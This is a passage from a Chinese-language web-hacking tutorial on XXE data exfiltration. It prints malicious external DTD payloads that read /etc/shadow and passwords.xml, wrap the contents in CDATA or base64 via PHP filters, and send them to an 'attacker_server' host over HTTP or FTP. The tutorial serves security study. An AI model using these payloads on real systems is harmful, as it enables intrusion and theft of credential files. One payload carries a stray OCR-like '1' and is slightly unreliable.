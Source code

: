 这种攻击方法也叫做*十亿个笑声攻击*或*XML 炸弹*。这里的例子来自维基百科，你可以在这里阅读更多关于此攻击的信息：[`en.wikipedia.org/wiki/Billion_laughs_attack`](https://en.wikipedia.org/wiki/Billion_laughs_attack)。有趣的是，尽管这个攻击通常被归类为 XXE 攻击，但它并不涉及任何外部实体！

## 更多关于通过 XXE 进行数据外泄的信息

如果解析器已经针对 XXE 攻击进行了加固，并且你试图读取特定格式的文件，XXE 数据外泄会变得更加复杂。但总有更多的方法可以绕过限制！

有时你可能需要外泄包含 XML 特殊字符的文件，如尖括号（`<>`）、引号（`"` 或 `'`）以及和号（`&`）。直接通过 XXE 访问这些文件会破坏 DTD 的语法，影响外泄过程。幸运的是，XML 已经有一个特性来解决这个问题。在 XML 文件中，被 `CDATA`（字符数据）标签包围的字符不会被视为特殊字符。所以，例如，如果你正在外泄一个 XML 文件，你可以按照以下方式重写你的恶意外部 DTD：

```
1 <!ENTITY % file SYSTEM "file:///passwords.xml">2 <!ENTITY % start "<![CDATA[">3 <!ENTITY % end "]]>">4 <!ENTITY % ent "<!ENTITY &#x25; exfiltrate
'http://attacker_server/?%start;%file;%end;'>">
%ent;
%exfiltrate;
```

这个 DTD 首先声明了一个指向你想读取的文件的参数实体 1。它还声明了两个参数实体，分别包含字符串 `"<![CDATA["` 和 `"]]>"` 2 3。然后，它构建了一个不会破坏 DTD 语法的外泄 URL，将文件内容包裹在 `CDATA` 标签中 4。连接的 `exfiltrate` 实体声明将变成以下内容：

```
<!ENTITY % exfiltrate 'http://attacker_server/?<![CDATA[CONTENTS_OF_THE_FILE]]>'>
```

你可以看到我们的有效载荷正在迅速变得复杂。为了防止不小心引入语法错误，你可以使用像 XmlLint ([`xmllint.com/`](https://xmllint.com/)) 这样的工具来确保你的 XML 语法有效。

最后，向目标发送你常用的 XML 有效载荷来执行攻击：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [ <!ENTITY % xxe SYSTEM "http://attacker_server/xxe.dtd"> %xxe;
]>
```

另一种外泄包含特殊字符的文件的方法是使用 PHP URL 包装器。如果目标是基于 PHP 的应用程序，PHP 包装器可以让你将所需的数据转换为 base64 格式，这样你就可以用它来读取 XML 文件或甚至是二进制文件：

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker_server/?%file;'>">
%ent;
%exfiltrate;
```

文件传输协议（FTP）也可以用来直接发送数据，同时绕过特殊字符限制。HTTP 有许多特殊字符限制，并且通常会限制 URL 的长度。改用 FTP 是绕过这些限制的一个简单方法。要使用 FTP，你需要在你的机器上运行一个简单的 FTP 服务器，并相应地修改你的恶意 DTD。我使用了 [`github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb`](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb) 上的简单 Ruby 服务器脚本：

```
<!ENTITY % file SYSTEM "file:///etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM1 'ftp://attacker_server:2121/?%file;'>">
%ent;
%exfiltrate;
```
